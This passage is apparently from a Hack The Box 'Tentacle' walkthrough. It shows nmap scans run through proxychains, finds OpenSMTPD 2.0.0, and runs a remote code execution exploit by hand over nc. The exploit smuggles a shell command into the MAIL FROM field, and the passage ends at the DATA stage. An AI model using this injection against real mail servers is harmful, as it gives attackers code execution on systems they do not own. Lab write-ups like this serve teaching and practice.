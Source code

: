 From [isInNet](https://docs.oracle.com/cd/E19575-01/821-0053/adyrv/index.html) function we can understand that ```10.197.243.0``` , ```10.241.251.0``` both are ip ranges, Let's try ```nmap``` scan with the first range (It's take around 15-20 min):

```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains4  -f /etc/proxychains.conf nmap -F 10.241.251.0/24
...
Nmap scan report for 10.241.251.113
Host is up (0.31s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
25/tcp open  smtp
....

```

Let's try to get more information about this service:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains4 -f /etc/proxychains.conf nmap -sT -Pn -sV -A -p25 10.241.251.113
...
proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
Nmap scan report for smtp.realcorp.htb (10.241.251.113)
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
25/tcp open  smtp    OpenSMTPD
| smtp-commands: smtp.realcorp.htb Hello smtp.realcorp.htb [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info 

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.66 seconds

```

So we can see the open port 25 with is ```OpenSMTPD 2.0.0```, We can use the following exploit [https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/) to get RCE.

So let's try to run the exploit manually without the python script from the link above:
```console
┌─[evyatar@parrot]─[/hackthebox/Tentacle]
└──╼ $ proxychains -q nc 10.241.251.113 25
220 smtp.realcorp.htb ESMTP OpenSMTPD
HELO x
250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
MAIL FROM:<;for d in x t J z 5 o N G K 9 3 B 1 n Y;do read d;done;bash;exit 0;>
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself


#
#
#
#
#
#
#
#
```